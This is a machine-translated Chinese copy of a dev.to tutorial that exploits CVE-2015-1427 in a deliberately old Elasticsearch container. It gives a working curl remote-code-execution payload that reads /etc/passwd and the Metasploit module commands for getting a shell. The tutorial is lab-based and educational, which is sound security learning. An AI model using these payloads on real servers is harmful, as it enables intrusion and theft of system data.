



# 集装箱有危险！

> 原文：<https://dev.to/terceranexus6/the-container-is-in-danger-4hji>

又见面了，欢迎回到**安全冲刺**第二版；)

继续上周的话题，我将在容器安全性方面更进一步。现在，我们将了解一个分布式 RESTful 搜索和分析引擎 [Elasticsearch](https://www.elastic.co/products/elasticsearch) 内部的危险。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--cFG7LOoJ--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://www.elastic.co/assets/blt244a845f141977c3/elastic-logo.svg)

为了清楚地理解我的观点，我们先推出一个运行 Elasticsearch 的容器。我是故意用的 **1.4.2 版本**。

```
# docker run -d -p 9200:9200 --name es benhall/elasticsearch:1.4.2 
```

Enter fullscreen mode Exit fullscreen mode

默认情况下, **Docker** 会放弃某些 Linux 功能并阻塞系统调用，以增加默认的安全级别。

我们将使用`curl`添加一条记录(因为我们使用的 vuln 只对非空数据库有效)，一旦我们开始监听，请耐心等待；)

```
# curl -XPUT 'http://0.0.0.0:9200/twitter/user/terceranexus6' -d '{"name":"Paula"}' 
```

Enter fullscreen mode Exit fullscreen mode

我们将利用 [**CVE-2015-1427**](https://nvd.nist.gov/vuln/detail/CVE-2015-1427) ，这是一个弹性搜索漏洞，允许使用 JAVA 进行搜索，并获取其他信息，例如获取对*操作系统名称*的访问。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--eoBSyVlA--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/3ltglyjea1npk82spquc.png)

我们可以看到，它响应了 HTTP 请求上的结果，但这可能是额外的应用程序发起的额外攻击。但这会让我们接触到敏感数据...比如 **passwd** 。

```
# curl http://docker:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getText()"}}}' 
```

Enter fullscreen mode Exit fullscreen mode

现在，现在，轮到了 **Metasploit**[](https://res.cloudinary.com/practicaldev/image/fetch/s--9Gl09nkN--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://www.metasploit.com/) 是一个渗透测试框架。可能需要一段时间才能启动！

```
# docker run -it --link es:es --entrypoint bash benhall/metasploit
# chmod +x start.sh && ./start.sh 
```

Enter fullscreen mode Exit fullscreen mode

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--JBCz8c-T--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/z5cytg5vl3hr1rrswp4m.png)

现在我们正在利用它开发弹性搜索。在 metasploit 终端中写:

```
use exploit/multi/elasticsearch/search_groovy_script
set TARGET 0
set RHOST es
exploit 
```

Enter fullscreen mode Exit fullscreen mode

如果一切顺利，我们应该能接触到集装箱。用`ls`试试看。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--taeosLs5--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/rc08g3m394nlvwfe9xoi.png)
[T6】](https://res.cloudinary.com/practicaldev/image/fetch/s--pujO5Ypg--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_66%2Cw_880/https://fordodone.com/wp-content/uploads/2017/11/lhtyoFj.gif)

呀呀呀！吓人！如果我们想保证集装箱的安全，我们应该怎么做？为了获得打了补丁的版本，请务必保持工具的最新版本。**这不能保证我们**的安全，但肯定会降低风险。

关于这个话题的更多信息，请看这个[惊人的教程](https://www.katacoda.com/courses/docker-security/elasticsearch-exploit)。